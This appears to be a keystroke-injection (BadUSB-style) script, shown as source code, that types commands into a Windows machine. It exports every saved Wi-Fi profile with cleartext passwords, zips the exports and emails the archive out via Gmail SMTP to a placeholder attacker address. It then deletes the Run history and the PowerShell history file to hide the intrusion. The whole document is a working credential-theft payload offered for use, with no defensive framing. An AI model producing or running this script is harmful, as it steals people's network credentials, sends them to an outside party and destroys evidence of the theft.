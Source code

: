 ```php
Print:mkdir A
Press:176
Print:cd A
Press:176
Print:netsh wlan export profile key=clear
Press:176
CustomDelay:200
Print:cd ..
Press:176
Print:powershell
Press:176
Print:Compress-Archive -Path A -DestinationPath A.zip
Press:176
CustomDelay:500
Print:$SMTPServer = 'smtp.gmail.com'
Press:176
Print:$SMTPInfo = New-Object Net.Mail.SmtpClient($SmtpServer, 587)
Press:176
Print:$SMTPInfo.EnableSsl = $true
Press:176
Print:$SMTPInfo.Credentials = New-Object System.Net.NetworkCredential('YOUR_EMAIL', 'YOUR_PASSWORD')
Press:176
Print:$ReportEmail = New-Object System.Net.Mail.MailMessage
Press:176
Print:$ReportEmail.From = 'YOUR_EMAIL'
Press:176
Print:$ReportEmail.To.Add('YOUR_EMAIL')
Press:176
Print:$ReportEmail.Subject = "Harvest-Report"
Press:176
Print:$ReportEmail.Body = "GG, you got it"
Press:176
Print:$ReportEmail.Attachments.Add("A.zip")
Press:176
Print:$SMTPInfo.Send($ReportEmail)
Press:176
CustomDelay:400
Print:REG DELETE HKEY_CURRENT_USER\\Software\\Microsoft\\Windows\\CurrentVersion\\Explorer\\RunMRU /f
Press:176
Print:cd ..
Press:176
Print:cd AppData\\Roaming\\Microsoft\\Windows\\PowerShell\\PSReadLine
Press:176
Print:del ConsoleHost_history.txt
Press:176
Print:exit
Press:176
CustomDelay:100
Print:del A & rmdir A
Press:176
Print:S
Press:176
Print:del A.zip & exit
Press:176
```
